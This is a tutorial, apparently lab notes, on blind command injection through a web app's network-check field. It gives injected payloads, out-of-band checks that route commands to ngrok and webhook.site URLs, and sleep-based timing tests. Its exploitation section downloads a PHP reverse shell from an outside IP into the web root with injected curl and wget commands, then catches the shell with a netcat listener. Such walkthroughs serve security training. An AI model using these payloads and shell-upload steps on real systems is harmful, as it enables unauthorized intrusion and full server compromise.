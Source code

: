 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```
https://webhook.site/22162abb-7ad5-4f92-8410-c57c37baad72?`COMMAND-GOES-HERE`
```


![](https://i.imgur.com/1KTjvSG.png)

- Navigating back to [webhook.site](https://webhook.site) we have `www-data`

![](https://i.imgur.com/bkceoUk.png)

> **Note :** After each URL always add a question mark (?) and back tick (``), Don't Forget !!



### **Exploitation**

- Start up a python server

```bash
$ python3 -m http.server 80
```

- Use **Wappalyzer** to check for web technology , so we can determine our reverse shell type, In my case it is `PHP`

![](https://i.imgur.com/Ju3RG9F.png)


- Navigate to [revshells.com](https://revshells.com) , Input your IP and preferred PORT, select your reverse shell type then click the save Icon 💾

![](https://i.imgur.com/DXSZZAG.png)


- Save your reverse shell file to where you started up your python server earlier

![](https://i.imgur.com/vdHpp5c.jpg)


- Start up your listener using netcat - `nc -lvnp 4444`
- Now navigate to the website and upload your shell using `curl` or `wget`

```HTML
# for CURL
127.0.0.1?`curl 192.168.0.157:443/shell.php > /var/www/html/shell.php`

# for WGET
127.0.0.1?`wget 192.168.0.157:443/shell.php`
```

- Open up a new tab on that website and type in - **http://URL/shell.php**, where URL is the website address and then shell.php , is the name of the malicious PHP file we uploaded. 


![](https://i.imgur.com/DjCCOqp.png)


- Navigating back to our listener we have a shell on the target system

